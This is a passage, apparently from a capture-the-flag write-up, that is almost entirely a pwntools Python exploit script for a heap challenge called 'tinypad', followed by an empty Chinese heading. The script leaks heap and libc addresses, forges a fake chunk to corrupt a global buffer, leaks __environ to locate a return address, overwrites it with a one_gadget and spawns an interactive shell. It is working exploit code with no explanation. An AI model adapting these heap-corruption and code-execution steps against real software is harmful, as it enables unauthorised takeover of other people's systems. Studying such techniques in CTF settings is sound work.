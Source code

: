 ```python

#stage one
add(0x80, "A"*0x80)
add(0x80, "B"*0x80)
add(0x80, "C"*0x80)
add(0x80, "D"*0x80)
delete(3)
delete(1)

p.recvuntil(" #   INDEX: 1\n")
p.recvuntil(" # CONTENT: ")
heap = u64(p.recvline().rstrip().ljust(8, "\x00")) - 0x120
log.info("heap_base: %s" % hex(heap))
p.recvuntil(" #   INDEX: 3\n")
p.recvuntil(" # CONTENT: ")
main_arena = u64(p.recv(6).ljust(8, "\x00")) - 0x58
log.info("main_arena: %s" % hex(main_arena))

delete(2)
delete(4)

#stage two
add(0x18, "A"*0x18)
add(0x100, "B"*0xf8 + p64(0x11))
add(0x100, "C"*0xf8)
add(0x100, "D"*0xf8)


tinypad = 0x602040
offset = heap + 0x20 - 0x602040 - 0x20
fake_chunk = p64(0) + p64(0x101) + p64(0x602060) * 2

edit(3, "D"*0x20 + fake_chunk)
zero_byte_number = 8 - len(p64(offset).strip("\x00"))
for i in range(zero_byte_number+1):
  data = "A"*0x10 + p64(offset).strip("\x00").rjust(8-i, 'f')
  edit(1, data)


delete(2)
edit(4, "D"*0x20 + p64(0) + p64(0x101) + p64(main_arena + 0x58)*2)

#gdb.attach(p)

#stage three
libc_base = main_arena + 0x58 - 0x3c4b78
log.info("libc_base: %s" % hex(libc_base))
one_gadget =  libc_base + 0x45216
environ_pointer = libc_base + libc.symbols['__environ']

add(0xf0, "A"*0xd0 + p64(0x18) + p64(environ_pointer) + 'a'*8 + p64(0x602148))

p.recvuntil(" #   INDEX: 1\n")
p.recvuntil(" # CONTENT: ")
main_ret = u64(p.recvline().rstrip().ljust(8, "\x00")) - 0x8*30
log.info("environ_addr: %s" % hex(main_ret))
edit(2, p64(main_ret))
edit(1, p64(one_gadget))
#p.recvall()
p.interactive()
```
### 多说一句